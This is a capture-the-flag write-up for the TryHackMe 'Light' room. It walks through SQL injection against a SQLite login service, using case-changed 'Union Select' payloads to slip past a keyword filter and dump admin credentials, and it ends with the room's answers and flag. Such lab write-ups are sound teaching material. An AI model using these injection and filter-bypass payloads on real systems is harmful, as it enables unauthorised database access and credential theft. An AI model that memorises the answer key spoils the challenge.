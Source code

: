 ```yaml
---
title: "Light"
date: 2025-1-26 12:00:00 +0000
categories: [CTF, Tryhackme]
tags: [Writeup, Cybersecurity, Tryhackme]
pin: false
---
```


**Light**

![screenshot](/assets/img/Light/image.png)

Welcome to the Light database application!


I am working on a database application called Light! Would you like to try it out?

If so, the application is running on port 1337. You can connect to it using 

``` bash 
nc 10.10.76.236 1337
```

You can use the username smokey in order to get started.

Note: Please allow the service 2 - 3 minutes to fully start before connecting to it.

Alright tho, we got a hint here let's use it immediately :

![screenshot](/assets/img/Light/1.png)

So we have a username and a password rn, let's see what is the next phase!

I'm gonna scan it with `nmap`

![screenshot](/assets/img/Light/2.png)

alright we have two open ports right now which are `22` and the given one `1337` 

At this point, I assumed the process would follow a familiar pattern: extract data from port `1337`, connect via SSH, and escalate privileges. However, this machine

presented unexpected obstacles, straying from the conventional route I had anticipated.  

After too many trials, I eventually identified two columns through trial and error then we got a `username` and a `password`.

![screenshot](/assets/img/Light/3.png)

that gave us a password which is : `tF8tj2o94WE4LKC`

so right now we don't know what is this password for but,

 After further testing, I discovered a working SQL injection payload:

 ```bash
 smokey' UNION SELECT name FROM sqlite_master WHERE type='table
 ```

but we have a problem here with the input validation, it checks for `Union` and `SELECT`

so it's gonna be

```bash
' Union Select name FROM sqlite_master WHERE type='table
```

![screenshot](/assets/img/Light/4.png)

The output was the first table in the sqlite_master schema, which’s the admintable.

```bash 
' Union Select username FROM admintable WHERE username LIKE '%
```

![screenshot](/assets/img/Light/5.png)

Got the username of the `admin` by using `'%` which matches all the records in the table.

```bash
' Union Select password FROM admintable WHERE username = 'TryHackMeAdmin
```

![screenshot](/assets/img/Light/6.png)

so, we have the admin's password right now.

just wanna make sure how many records has been saved for the admintable.

```bash
 ' Union Select COUNT(username) FROM admintable WHERE '1
```

![screenshot](/assets/img/Light/7.png)

```bash 
' Union Select username FROM admintable WHERE username != 'TryHackMeAdmin
```
 
 ![screenshot](/assets/img/Light/8.png)

 so by using the previous command we've got the second username which is `flag`, then we will use another query to get the password for this username.

```bash 
' Union Select password FROM admintable WHERE username = 'flag
```

 ![screenshot](/assets/img/Light/9.png)

 `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`


**What is the admin username?**

*TryHackMeAdmin*

**What is the password to the username mentioned in question 1?**

*mamZtAuMlrsEy5bp6q17*

**What is the flag?**

*THM{SQLit3_InJ3cTion_is_SimplE_nO?}*